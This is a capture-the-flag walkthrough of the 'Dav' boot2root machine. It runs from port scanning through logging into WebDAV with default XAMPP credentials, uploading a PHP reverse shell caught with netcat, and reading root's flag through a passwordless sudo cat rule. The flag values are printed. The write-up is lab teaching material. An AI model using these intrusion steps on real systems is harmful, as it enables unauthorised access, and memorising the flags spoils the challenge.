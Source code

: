 # Dav

boot2root machine for FIT and bsides guatemala CTF

Read `user.txt` and `root.txt`

# #1 - user.txt

## Nmap

Nmap reveals only 1 open port, HTTP, on standard port 80.

~~~
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
~~~

## Web enumeration

There is no `robots.txt` file that may have disclosed hidden locations, but dirsearch found a `/webdav/` directory, which requires an authentication.

Searching for the terms `default credentials webdav` on Google leads to [this link](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) that applies to XAMPP, but why not giving it a try?

Guess what? It worked with `wampp:xampp`!

## Webdav

Now authenticated, we are able to list the files on the webdav server, and there is only 1 file, which was the authentication file:

~~~
$ wget --http-user="wampp" --http-password="xampp" http://10.10.19.245/webdav/passwd.dav
$ cat passwd.dav 
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
~~~

Now that we have access, let's confirm if the server allows us to put files:

~~~
$ curl -u "wampp:xampp" -X PUT http://10.10.19.245/webdav/test
~~~

The file `test` is successfully uploaded to the server.

## Reverse shell

Let's use `cadaver` to upload a [PHP reverse shell](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz):

~~~
$ cadaver http://10.10.19.245/webdav
Authentication required for webdav on server `10.10.19.245':
Username: wampp
Password: 
dav:/webdav/> put shell.php
Uploading shell.php to `/webdav/shell.php':
Progress: [=============================>] 100.0% of 5491 bytes succeeded.
dav:/webdav/> quit
Connection to `10.10.19.245' closed.
~~~

Now, open a listener on our machine:

~~~
$ rlwrap nc -nlvp 4444
~~~

Open the URL where you have uploaded the PHP shell (e.g. http://10.10.19.245/webdav/shell.php) and voila, you have a reverse shell.

~~~
$ rlwrap nc -nlvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.19.245.
Ncat: Connection from 10.10.19.245:55292.
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 13:47:48 up  1:56,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
~~~

## User flag

Now, let's upgrade our shell and get the flag:

~~~
$ SHELL=/bin/bash script -q /dev/null
www-data@ubuntu:/$ cd /home
www-data@ubuntu:/home$ ls
merlin	wampp
www-data@ubuntu:/home/wampp$ cd /home/merlin/
www-data@ubuntu:/home/merlin$ ls -la
total 44
drwxr-xr-x 4 merlin merlin 4096 Aug 25  2019 .
drwxr-xr-x 4 root   root   4096 Aug 25  2019 ..
-rw------- 1 merlin merlin 2377 Aug 25  2019 .bash_history
-rw-r--r-- 1 merlin merlin  220 Aug 25  2019 .bash_logout
-rw-r--r-- 1 merlin merlin 3771 Aug 25  2019 .bashrc
drwx------ 2 merlin merlin 4096 Aug 25  2019 .cache
-rw------- 1 merlin merlin   68 Aug 25  2019 .lesshst
drwxrwxr-x 2 merlin merlin 4096 Aug 25  2019 .nano
-rw-r--r-- 1 merlin merlin  655 Aug 25  2019 .profile
-rw-r--r-- 1 merlin merlin    0 Aug 25  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root   root    183 Aug 25  2019 .wget-hsts
-rw-rw-r-- 1 merlin merlin   33 Aug 25  2019 user.txt
www-data@ubuntu:/home/merlin$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
~~~

User flag: `449b40fe93f78a938523b7e4dcd66d2a`

# #2 - root.txt

Checking our privileges with `sudo -l` reveals that we can `cat` any file with `sudo` without password. Let's get the root flag:

~~~
www-data@ubuntu:/home/merlin$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
www-data@ubuntu:/home/merlin$ sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
~~~

Root flag: `101101ddc16b0cdf65ba0b8a7af7afa5`
